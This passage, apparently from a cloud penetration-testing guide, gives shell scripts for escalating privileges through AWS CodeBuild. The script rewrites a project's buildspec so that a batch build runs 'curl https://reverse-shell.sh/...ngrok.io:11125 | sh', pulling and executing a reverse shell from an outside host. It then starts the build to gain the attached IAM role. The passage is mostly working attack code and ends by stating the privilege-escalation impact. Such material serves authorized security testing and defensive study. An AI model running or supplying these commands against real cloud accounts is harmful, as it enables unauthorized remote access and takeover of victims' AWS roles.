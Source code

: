 ```sh
aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
{% endcode %}
{% endtab %}

{% tab title="StartBuildBatch" %}
{% code overflow="wrap" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

# You need to indicate the name of the project you want to modify
JSON="{
    \"name\": \"project_name\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nbatch:\\\\n  fast-fail: false\\\\n  build-list:\\\\n    - identifier: build1\\\\n      env:\\\\n        variables:\\\\n          BUILD_ID: build1\\\\n      buildspec: |\\\\n        version: 0.2\\\\n        env:\\\\n          shell: sh\\\\n        phases:\\\\n          build:\\\\n            commands:\\\\n              - curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh\\\\n      ignore-failure: true\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\",
        \"imagePullCredentialsType\": \"CODEBUILD\"
    }
}"

printf "$JSON" > $REV_PATH

# Note how it's used a image from AWS public ECR instead from dockerhub as dockerhub rate limits CodeBuild!

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build-batch --project-name codebuild-demo-project
```
{% endcode %}
{% endtab %}
{% endtabs %}

**Potential Impact:** Direct privesc to attached AWS Codebuild roles.
